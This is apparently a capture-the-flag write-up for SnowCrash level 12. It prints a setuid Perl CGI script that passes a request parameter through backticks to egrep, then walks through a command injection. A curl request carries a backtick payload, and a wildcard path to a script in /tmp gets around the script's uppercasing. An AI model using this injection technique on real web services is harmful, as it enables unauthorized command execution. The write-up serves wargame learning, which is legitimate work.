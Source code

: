 # Level12

## Research

```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ ./level12.pl
Content-type: text/html

..level12@SnowCrash:~$
```
Study `level12.pl`:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

# A Perl subroutine or function is a group of statements that together performs a task. 
sub t {
  # y 
  $nn = $_[1];
  # x 
  $xx = $_[0];
# The operator =~ associates the string with the regex match and produces a 
# true value if the regex matched, or false if the regex did not match
# The tr operator in Perl translates all characters of 
# SearchList into the corresponding characters of ReplacementList.
# Syntax: tr/SearchList/ReplacementList/
# Do uppercase on x !
  $xx =~ tr/a-z/A-Z/;
# Substitution Operator or ‘s’ operator in Perl is used to substitute 
# a text of the string with some pattern specified by the user.
# Syntax: s/text/pattern
# \s Do a global search for whitespace characters in a string
# .* just means "0 or more of any character"
# remove all whitespaces !
  $xx =~ s/\s.*//;
# Variables of Array Datatype are preceded by an “at” (@) sign.
# egrep command searches for a text pattern, using extended regular expressions 
# standard error (stderr), to where programs can send their error messages.
# Standard output (stdout) can be screen or file depending on redirection
# 2>&1 redirect stderr to whatever value is set to stdout
# output (array) saves what is return on the stdout by the egrep command
# The threat must be here as all others line seems safe
# `` is for running command !
# grep " " run command inside !
# however getflag will become GETFLAG and won't work...
# ^ to find character missing in the string
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
# $_ = default variable in case no parameter is explicitly used
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

What we can understand:
- `level12.pl` uses `CGI` on `localhost:4646`
- It seems to take 2 arguments
- Argument x will be put in uppercase and will be executed thanks to the \`\` quotes 
- Argument y seems to serve no purpose for us

We saw in a previous level that we can pass parameters to CGI. So let's try to pass `getflag`.

Problem: if we pass just `getflag`, the regex will turn it into GETFLAG and the command won't be run properly. We need to find a way of passing a command without it being transformed in uppercase. </br>
Maybe we can run a script instead of a command and using wildcards will prevent the regex to turn `/tmp/` into `/TMP/` wich doesn't exist.

```bash
level12@SnowCrash:~$ echo 'getflag' > /tmp/GETFLAG
level12@SnowCrash:~$ touch /tmp/CC
level12@SnowCrash:~$ chmod 777 /tmp/GETFLAG
level12@SnowCrash:~$ curl localhost:4646/?x="`/*/GETFLAG>/*/CC`"
..level12@SnowCrash:~$ cat /tmp/CC
Check flag.Here is your token :
Nope there is no token here for you sorry. Try again :)
```
This does not work, it launch getflag without the appropriate rights.

1h30 later with lot of different useless tries...
It was not the good quotes, and why not do the > part into the script.
https://stackoverflow.com/questions/6697753/difference-between-single-and-double-quotes-in-bash
https://www.howtogeek.com/howto/29980/whats-the-difference-between-single-and-double-quotes-in-the-bash-shell/

## Solution

```
level12@SnowCrash:~$ cat /tmp/GETFLAG
#!/bin/bash
getflag > /tmp/flag
level12@SnowCrash:~$ touch /tmp/flag
level12@SnowCrash:~$ chmod 777 /tmp/GETFLAG
level12@SnowCrash:~$ curl localhost:4646?x='`/*/GETFLAG`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : XXXXXXXXXXXXXXXXXXXXXXXXX
```
Gives us the flag.
